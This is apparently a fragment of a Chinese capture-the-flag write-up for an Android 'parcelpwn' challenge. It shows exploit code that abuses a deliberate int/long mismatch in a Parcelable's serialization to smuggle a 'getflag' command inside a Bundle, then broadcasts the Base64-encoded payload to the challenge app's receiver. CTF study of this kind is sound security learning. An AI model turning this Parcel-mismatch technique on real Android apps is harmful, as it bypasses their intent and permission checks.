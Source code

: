 ```java
            var1.writeLong(this.rttStandardDeviation);
            var1.writeInt((int)this.rttSpread);//强制类型转换
        }
    }
}
```



测试：

```kotlin
 Message() {
        this.bssid = "bssid";
        this.burstNumber = 1;
        this.frameNumberPerBurstPeer = 2;
        this.measurementFrameNumber = 3;
        this.measurementType = 4;
        this.retryAfterDuration = 5;
        this.rssi = 6;
        this.rssiSpread = 7;
        this.rtt = 8;
        this.rttSpread = 9;
        this.rttStandardDeviation = 10;
        this.status = 11;
        this.successMeasurementFrameNumber = 12;
        this.f32ts = 13;
        this.txRate = 0xff;
}
```

广播

```csharp
 public void sendData(Context context) {
        Bundle bundle = new Bundle();
        bundle.putParcelable("msg", new Message());
        bundle.putString("command","getflag");
        Parcel parcel = Parcel.obtain();
        parcel.writeBundle(bundle);
        parcel.setDataPosition(0);
        byte[] bytes = parcel.marshall();

        StringBuilder buffer = new StringBuilder();
        for (byte b : bytes) {
            buffer.append(String.format("%02x", b));
        }

        Log.d(TAG, buffer.toString());
        Log.d(TAG, new String(Base64.encode(bytes, 0)));
        Intent intent = new Intent("com.happy.parcelpwn.receiver1");
        intent.putExtra("id", (int) 6666);
        intent.putExtra("data", new String(Base64.encode(bytes, 0)));
        context.sendBroadcast(intent);
    }
```
